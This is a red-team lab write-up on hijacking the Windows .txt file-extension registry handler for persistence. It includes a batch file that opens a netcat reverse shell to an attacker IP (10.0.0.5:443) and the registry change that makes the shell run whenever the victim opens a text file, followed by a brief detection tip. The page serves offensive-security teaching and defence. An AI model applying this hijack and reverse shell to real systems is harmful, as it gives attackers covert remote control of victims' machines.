 <h1>Hijacking Default File Extension</h1>
<p>When a .txt file is double clicked, it's opened with a notepad.exe. Windows knows that it needs to use notepad.exe for opening txt files, because the `.txt` extension (among many others) are mapped to applications that can open those files in Windows registry located at `Computer\HKEY_CLASSES_ROOT`.</p>
<p>It's possible to hijack a file extension and make it execute a malicious application before the actual file is opened.</p>
<p>In this quick lab, I'm going to hijack the .txt extension - the victim user will still be able to open the original .txt file, but it will additionally fire a reverse shell back to the attacking system.</p>
<h2>Execution</h2><p>The .txt extension handler is defined in the below registry key:</p><pre>Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command</pre>
<p>Below shows that the command responsible for opening .txt files is `notepad.exe %1`, where `%1` is the argument for notepad.exe, which specifies a file name the notepad should open:</p>
<img src="https://github.com/TechnologyMediaorg/red-teaming-specials/assets/111997815/e6ebb1b4-ff38-491e-a2cc-d7630378012f">
<p>Say, a target user has the file test.txt on his desktop with the below file contents:</p>
<img src="https://github.com/TechnologyMediaorg/red-teaming-specials/assets/111997815/01a31f14-cacf-43b6-a81f-e9998c5b3691">

<p>Let's now create a malicious file that we want to be executed when the user attempts to open the benign file test.txt. 
For this lab, the malicious file is going to be a simple Windows batch file located in c:\tools\shell.cmd:</p>
<pre><code title="c:\tools\shell.cmd">start C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe\nstart notepad.exe %1</code>
</pre>
<img src="https://github.com/TechnologyMediaorg/red-teaming-specials/assets/111997815/75ec2929-73aa-4b3c-8141-da8b020edccd">
<p>Once executed, `c:\tools\hell.cmd` will launch a simple netcat reverse shell to the attacking system and also a notepad with the `test.txt` file as an argument.</p>
<p>We are now ready to hijack the .txt file extension by modifying the value data of  `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` to `c:\tools\shell.cmd %1` as shown below:
  <img src="https://github.com/TechnologyMediaorg/red-teaming-specials/assets/111997815/ee15e126-7f0a-4704-b2ce-dceb69438e04">

</p>
<h2>Demo</h2>
<p>Opening the test.txt file by double clikcing it opens the file itself, but a reverse shell is thrown to the attacking system as well:
<img src="https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/raw/master/.gitbook/assets/hijacked-extension.gif"></p>
<h2>Detection</h2>
<p>Defenders may want to monitor registry for file extension command changes, especially if the data field contains binaries located in unusual places.</p>
<h2>References</h2>
<p><a href="https://attack.mitre.org/techniques/T1042/">https://attack.mitre.org/techniques/T1042/</a></p>
